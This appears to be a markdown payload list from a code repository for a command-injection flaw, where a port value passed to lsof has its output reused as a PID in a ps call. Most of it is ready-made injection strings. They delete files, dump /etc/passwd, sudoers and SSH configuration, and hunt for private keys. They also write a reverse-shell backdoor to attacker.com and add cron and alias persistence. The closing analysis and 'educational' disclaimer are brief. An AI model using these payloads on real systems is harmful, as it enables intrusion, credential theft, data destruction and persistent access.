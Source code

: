 # Chain Exploitation Attack Payloads

## 🎯 Main Exploits (For Presentation)

### 1. Basic Chain Exploitation
**Payload:** `8080; echo '123; rm -rf /tmp/demo; #' #`
**Effect:** First command's malicious output pipes to second, triggering chained destructive actions
**Injected Command:** `lsof -t -i tcp:8080; echo '123; rm -rf /tmp/demo; #' #`

```bash
8080; echo '123; rm -rf /tmp/demo; #' #
8080; echo '456; touch /tmp/chain_owned; #' #
8080; echo '789; whoami > /tmp/chain_user; #' #
```

### 2. Process Chain Exploitation
**Payload:** `8080; echo '999; cat /etc/passwd > /tmp/chain_passwd; #' #`
**Effect:** Exploits the PID chain vulnerability for data exfiltration

```bash
8080; echo '999; cat /etc/passwd > /tmp/chain_passwd; #' #
8080; echo '888; ps aux > /tmp/chain_processes; #' #
8080; echo '777; netstat -tuln > /tmp/chain_network; #' #
```

### 3. Data Chain Exploitation
**Payload:** `8080; echo '555; find /home -name "*.txt" > /tmp/chain_files; #' #`
**Effect:** Chains data exfiltration commands

```bash
8080; echo '555; find /home -name "*.txt" > /tmp/chain_files; #' #
8080; echo '444; grep -r "password" /etc/ > /tmp/chain_passwords; #' #
8080; echo '333; tar -czf /tmp/chain_data.tar.gz /etc/; #' #
```

### 4. Network Chain Exploitation
**Payload:** `8080; echo '222; curl -s http://ifconfig.me > /tmp/chain_ip; #' #`
**Effect:** Chains network reconnaissance commands

```bash
8080; echo '222; curl -s http://ifconfig.me > /tmp/chain_ip; #' #
8080; echo '111; ping -c 1 8.8.8.8 > /tmp/chain_ping; #' #
8080; echo '000; nslookup google.com > /tmp/chain_dns; #' #
```

### 5. Destructive Chain Exploitation
**Payload:** `8080; echo '666; rm -rf /tmp/*; #' #`
**Effect:** Demonstrates destructive chained actions

```bash
8080; echo '666; rm -rf /tmp/*; #' #
8080; echo '777; chmod 000 /tmp/; #' #
8080; echo '888; mkdir -p /tmp/chain_destruction; #' #
```

---

## 🔧 Additional Exploits (For Reference)

### Backdoor Chain Exploitation
```bash
8080; echo '999; echo "#!/bin/bash" > /tmp/chain_backdoor.sh; #' #
8080; echo '888; echo "bash -i >& /dev/tcp/attacker.com/4444 0>&1" >> /tmp/chain_backdoor.sh; #' #
8080; echo '777; chmod +x /tmp/chain_backdoor.sh; #' #
```

### Privilege Escalation Chain
```bash
8080; echo '555; sudo -l > /tmp/chain_sudo; #' #
8080; echo '444; find / -perm -4000 2>/dev/null > /tmp/chain_suid; #' #
8080; echo '333; cat /etc/sudoers > /tmp/chain_sudoers; #' #
```

### Persistence Chain Exploitation
```bash
8080; echo '222; echo "*/5 * * * * /tmp/chain_backdoor.sh" >> /tmp/chain_cron; #' #
8080; echo '111; echo "alias ls='ls && /tmp/chain_backdoor.sh'" >> /tmp/chain_alias; #' #
8080; echo '000; echo "export PATH=/tmp/chain:$PATH" >> /tmp/chain_path; #' #
```

### Demonstration Payloads (Safe for Demo)
```bash
8080; echo '123; touch /tmp/chain_demo; #' #
8080; echo '456; echo "Chain exploitation successful" > /tmp/chain_result; #' #
8080; echo '789; date > /tmp/chain_timestamp; #' #
8080; echo '012; echo $USER > /tmp/chain_user; #' #
```

### Advanced Chain Techniques
```bash
# Multi-stage chain
8080; echo 'stage1; echo "stage2; echo \"stage3; touch /tmp/multi_stage; #\" #" #' #

# Conditional chain
8080; echo 'test; if [ -f /etc/passwd ]; then cat /etc/passwd > /tmp/conditional; fi; #' #

# Loop chain
8080; echo 'loop; for i in {1..5}; do echo "iteration $i" > /tmp/loop_$i; done; #' #

# Function chain
8080; echo 'func; function evil() { touch /tmp/function_chain; }; evil; #' #
```

### System Enumeration Chain
```bash
8080; echo '111; uname -a > /tmp/chain_system; #' #
8080; echo '222; cat /proc/version > /tmp/chain_kernel; #' #
8080; echo '333; cat /proc/cpuinfo > /tmp/chain_cpu; #' #
8080; echo '444; cat /proc/meminfo > /tmp/chain_memory; #' #
```

### User Enumeration Chain
```bash
8080; echo '111; cat /etc/passwd > /tmp/chain_users; #' #
8080; echo '222; cat /etc/group > /tmp/chain_groups; #' #
8080; echo '333; who > /tmp/chain_logged; #' #
8080; echo '444; w > /tmp/chain_active; #' #
```

### Service Enumeration Chain
```bash
8080; echo '111; systemctl list-units --type=service > /tmp/chain_services; #' #
8080; echo '222; systemctl list-units --type=socket > /tmp/chain_sockets; #' #
8080; echo '333; systemctl list-units --type=timer > /tmp/chain_timers; #' #
8080; echo '444; systemctl list-units --type=target > /tmp/chain_targets; #' #
```

### Configuration Chain Exploitation
```bash
8080; echo '111; cat /etc/ssh/sshd_config > /tmp/chain_ssh; #' #
8080; echo '222; cat /etc/apache2/apache2.conf > /tmp/chain_apache; #' #
8080; echo '333; cat /etc/nginx/nginx.conf > /tmp/chain_nginx; #' #
8080; echo '444; cat /etc/mysql/my.cnf > /tmp/chain_mysql; #' #
```

### Log Chain Exploitation
```bash
8080; echo '111; tail -n 100 /var/log/auth.log > /tmp/chain_auth; #' #
8080; echo '222; tail -n 100 /var/log/syslog > /tmp/chain_syslog; #' #
8080; echo '333; tail -n 100 /var/log/apache2/access.log > /tmp/chain_apache_log; #' #
8080; echo '444; journalctl --no-pager > /tmp/chain_journal; #' #
```

### Network Chain Exploitation
```bash
8080; echo '111; ip addr > /tmp/chain_interfaces; #' #
8080; echo '222; ip route > /tmp/chain_routes; #' #
8080; echo '333; cat /etc/hosts > /tmp/chain_hosts; #' #
8080; echo '444; cat /etc/resolv.conf > /tmp/chain_dns; #' #
```

### File System Chain Exploitation
```bash
8080; echo '111; find / -name "*.conf" -type f 2>/dev/null > /tmp/chain_configs; #' #
8080; echo '222; find / -name "*.key" -type f 2>/dev/null > /tmp/chain_keys; #' #
8080; echo '333; find / -name "*.pem" -type f 2>/dev/null > /tmp/chain_certs; #' #
8080; echo '444; find / -name "*.db" -type f 2>/dev/null > /tmp/chain_dbs; #' #
```

### Process Chain Exploitation
```bash
8080; echo '111; ps -ef > /tmp/chain_all_procs; #' #
8080; echo '222; pstree > /tmp/chain_proc_tree; #' #
8080; echo '333; lsof -i > /tmp/chain_net_conns; #' #
8080; echo '444; netstat -tulpn > /tmp/chain_listening; #' #
```

### Advanced Multi-Stage Chains
```bash
# Three-stage chain
8080; echo 'stage1; echo "stage2; echo \"stage3; echo \\\"stage4; touch /tmp/four_stage; #\\\" #\" #" #' #

# Nested conditional chain
8080; echo 'cond1; if [ -f /etc/passwd ]; then echo "cond2; if [ -w /tmp ]; then touch /tmp/nested_conditional; fi; #"; fi; #' #

# Recursive chain
8080; echo 'rec1; echo "rec2; echo \\\"rec3; echo \\\\\\\"rec4; touch /tmp/recursive_chain; #\\\\\\\" #\\\" #" #' #

# Time-based chain
8080; echo 'time1; sleep 1 && echo "time2; sleep 1 && echo \\\"time3; touch /tmp/time_chain; #\\\" #" #' #
```

---

## 📊 Chain Exploitation Analysis

### Chain Attack Flow
1. **First Command:** `lsof -t -i tcp:8080; echo '123; rm -rf /tmp/demo; #' #`
2. **Output:** `123` (malicious PID)
3. **Second Command:** `ps -p 123; rm -rf /tmp/demo; # -o comm=`
4. **Result:** Destructive action executed

### Chain Vulnerabilities
- **PID Manipulation:** First command output becomes PID for second command
- **Command Injection:** Malicious output injected into subsequent commands
- **Parameter Pollution:** Multiple commands executed in sequence
- **Output Redirection:** Command output used as input for next command

### Attack Patterns
1. **Direct Chain:** `command1; command2; #`
2. **Output Chain:** `command1 | command2`
3. **Conditional Chain:** `command1 && command2`
4. **Nested Chain:** `command1; echo "command2; command3; #" #`

### Impact Assessment
- **System Compromise:** Full access through chained commands
- **Data Destruction:** Cascading destructive actions
- **Persistence:** Multiple persistence mechanisms
- **Privilege Escalation:** Chained privilege escalation
- **Network Access:** Chained network reconnaissance

### Detection Challenges
- **Complex Logging:** Multiple commands in single request
- **False Positives:** Legitimate command chaining
- **Timing Issues:** Commands executed in sequence
- **Output Analysis:** Complex output relationships

---

**⚠️ WARNING: These payloads are for educational purposes only. Only use in isolated, controlled environments.** 